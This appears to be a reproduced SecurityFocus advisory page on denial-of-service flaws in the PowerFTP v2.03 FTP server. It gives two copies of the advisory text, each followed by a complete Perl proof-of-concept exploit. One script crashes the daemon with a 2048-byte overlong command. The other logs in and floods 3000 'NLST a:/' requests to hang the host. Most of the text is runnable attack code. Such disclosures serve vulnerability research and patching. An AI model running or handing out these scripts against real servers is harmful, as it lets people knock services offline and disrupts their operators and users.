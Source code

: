 INFO1
-----

    source: http://www.securityfocus.com/bid/3595/info


    PowerFTP is a commercial FTP server for Microsoft Windows 9x/ME/NT/2000/XP operating systems. It is maintained by Cooolsoft.

    Multiple instances of denial of service vulnerabilities exist in PowerFTP's FTP daemon. This is achieved by connecting to a vulnerable host and submitting an unusally long string of arbitrary characters.

    It has been reported that this issue may also be triggered by issuing an excessively long FTP command of 2050 bytes or more.

    This issue may is most likely due to a buffer overflow. If this is the case, there is a possibility that arbitrary code may be executed on the vulnerable host. However, this has not yet been confirmed.

    #!/usr/bin/perl
    # Simple script to send a long 'A^s' command to the server,
    # resulting in the ftpd crashing
    #
    # PowerFTP Server v2.03 proof-of-concept exploit
    # By Alex Hernandez <al3x.hernandez@ureach.com> (C)2001.
    #
    # Thanks all the people from Spain and Argentina.
    # Special Greets: White-B, Pablo S0r, Paco Spain, L.Martins,
    # G.Maggiotti & H.Oliveira.
    #
    #
    # Usage: perl -x PowerFTP_Dos.pl -s <server>
    #
    # Example:
    #
    # perl -x PowerFTP_Dos.pl -s 10.0.0.1
    # 220 Personal FTP Server ready
    # Crash was successful !
    #

    use Getopt::Std;
    use IO::Socket;

    print("\nPowerFTP server v2.03 DoS exploit (c)2001\n");
    print("Alex Hernandez al3xhernandez\@ureach.com\n\n");

    getopts('s:', \%args);
    if(!defined($args{s})){&usage;}
    $serv = $args{s};
    $foo = "A"; $number = 2048;
    $data .= $foo x $number; $EOL="\015\012";

    $remote = IO::Socket::INET->new(
                        Proto => "tcp",
                        PeerAddr => $args{s},
                        PeerPort => "ftp(21)",
                    ) || die("Unable to connect to ftp port at $args{s}\n");

    $remote->autoflush(1);
    print $remote "$data". $EOL;
    while (<$remote>){ print }
    print("\nCrash was successful !\n");


    sub usage {die("\nUsage: $0 -s <server>\n\n");}

INFO2
-----

    source: http://www.securityfocus.com/bid/3595/info


    PowerFTP is a commercial FTP server for Microsoft Windows 9x/ME/NT/2000/XP operating systems. It is maintained by Cooolsoft.

    Multiple instances of denial of service vulnerabilities exist in PowerFTP's FTP daemon. This is achieved by connecting to a vulnerable host and submitting an unusally long string of arbitrary characters.

    It has been reported that this issue may also be triggered by issuing an excessively long FTP command of 2050 bytes or more.

    This issue may is most likely due to a buffer overflow. If this is the case, there is a possibility that arbitrary code may be executed on the vulnerable host. However, this has not yet been confirmed.

    #!/usr/bin/perl
    #
    # Even though the server will deny access, the slow hardware
    # will still hang the machine. This program attempts to
    # exploit this weakness by sending the 'NLST a:/' command to
    # the server
    #
    # PowerFTP Server v2.03 proof-of-concept exploit
    # By Alex Hernandez <al3x.hernandez@ureach.com> (C)2001.
    #
    # Thanks all the people from Spain and Argentina.
    # Special Greets: White-B, Pablo S0r, Paco Spain, L.Martins,
    # G.Maggiotti & H.Oliveira.
    #
    #
    # Usage: perl -x PowerFTP_floppy.pl <server> <port> <user> <pass>
    #
    # Example:
    #
    # perl -x PowerFTP_floppy.pl 10.0.0.1 21 temp temp
    #

    use IO::Socket;

    print("\nPowerFTP server v2.03 DoS exploit Floppy (c)2001\n");
    print("Alex Hernandez al3xhernandez\@ureach.com\n\n");

    #$NUMBER_TO_SEND = 3000;
    $BUFF = 3000;

    if ( scalar @ARGV < 4 ) {
        print "Usage: $0 <server> <port> <user> <pass>\n";
        exit();
    }


    $target = $ARGV[ 0 ];
    $port = $ARGV[ 1 ];
    $username = $ARGV[ 2 ];
    $password = $ARGV[ 3 ];

    print "Creating socket... ";
    $sock = new IO::Socket::INET( PeerAddr => $target,
                                  PeerPort => int( $port ),
                                    Proto => 'tcp' );
    die "$!" unless $sock;
    print "done.\n";


    read( $sock, $buffer, 1 );


    print "Sending username...";
    print $sock "USER " . $username . "\n";
    read( $sock, $buffer, 1 );
    print "done.\n";


    print "Sending password...";
    print $sock "PASS " . $password . "\n";
    read( $sock, $buffer, 1 );
    print "done.\n";


    print "DoS Attack floppy server...";
    for( $i = 0; $i < $BUFF; $i++ ) {

        print $sock "NLST a:/\n";
        read( $sock, $buffer, 1 );
    }

    print "done.\n";

    close( $sock );
    exit();